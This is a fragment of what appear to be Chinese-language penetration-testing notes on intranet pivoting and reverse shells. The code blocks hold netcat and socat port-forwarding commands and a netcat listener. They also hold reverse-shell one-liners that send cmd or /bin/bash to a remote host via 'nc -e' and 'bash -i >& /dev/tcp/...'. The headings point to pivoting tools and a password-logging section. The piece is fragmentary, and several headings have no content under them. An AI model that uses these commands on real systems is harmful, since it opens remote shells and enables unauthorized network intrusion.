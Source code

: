 ##### ssocks

### Linux下跨边界应用

#### rtcp.py

https://github.com/knownsec/rtcp

#### SSH + PUTTY

#### netcat与socat端口转发

```shell
netcat:
转发本地8888端口到192.168.1.1的80端口
mkfifo p
cat p | nc 192.168.17.143 80 | nc -l 8888 > p
```

```shell
socat:
转发本地的1080端口到远程的8080端口(守护进程)
Nohup socat TCP4-LISTEN:1080,reuseaddr,fork
TCP4:192.168.1.1:8080
```

### Earthworm:跨平台内网穿透

### 反弹shell

#### Netcat

```shell
#操作机
nc.exe -nvv -lp 4444
#Windiw
nc.exe -e cmd IP 4444
#Linux
nc -e /bin/bash IP 4444
```

#### Bash

```shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### python/Perl/Php反弹

## 密码记录与欺骗攻击

### 密码记录工具

#### Winlogonhack
